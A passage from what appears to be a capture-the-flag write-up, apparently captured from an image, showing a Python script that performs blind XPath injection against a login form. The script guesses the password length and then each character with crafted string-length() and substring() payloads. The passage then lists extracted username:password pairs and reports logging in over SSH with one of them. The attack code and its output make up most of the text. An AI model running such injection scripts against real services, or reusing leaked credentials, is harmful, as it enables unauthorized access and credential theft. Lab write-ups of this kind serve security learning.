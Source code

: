 ```python
        r = requests.post(url,data=params,proxies=proxy)
        if 'Rita' in r.text:
            username += ch
            print("Username: " + username,end='\r',flush=True)
            break
print("Username : " +username)
#string length of Password
while True:
    params = { 'Username' : "'or '1'='1' and string-length(/Employees/Employee[3]/Password/text()) = "+str(j)+" and '1'='1",
            'Password' : "'or '1'='1' and string-length(/Employees/Employee[3]/Password/text()) =" +str(j)+" and '1'='1"
           }
    r = requests.post(url,data=params,proxies=proxy)
    #print("testing: "+ str(j),end='\r',flush=True)
    if 'Rita' in r.text:
        len1 = j 
       # print("value found finally: "+ str(j))
        break
    j += 1
# Extracting the password
pass1= ''
for i in range(1,len1+1):
    for ch in str1:
        #print("value testing for character number: "+str(i) + " and Value: " + ch,end = '\r', flush=True)
        params = { 'Username' : "'or '1'='1' and substring(/Employees/Employee[3]/Password/text(),{},1) = '".format(i)+ch +"' and '1'='1",
            'Password' : "'or '1'='1' and substring(/Employees/Employee[3]/Password/text(),{},1) = '".format(i) +ch+"' and '1'='1"
            }
        r = requests.post(url,data=params,proxies=proxy)
        if 'Rita' in r.text:
            pass1 += ch
            print("password : " + pass1,end='\r',flush=True)
            break
print("password : " +pass1)
```

```console
#Extracted Information   
rita:password01!  
jim:stairwaytoheaven  
bryan:ireallyl0vebubblegum!!!  
sarah:sarah4evahevah
```

Port 22
-------

As ssh was open, I tried to log in with the usernames and their password. And we get in with Bryan’s password.

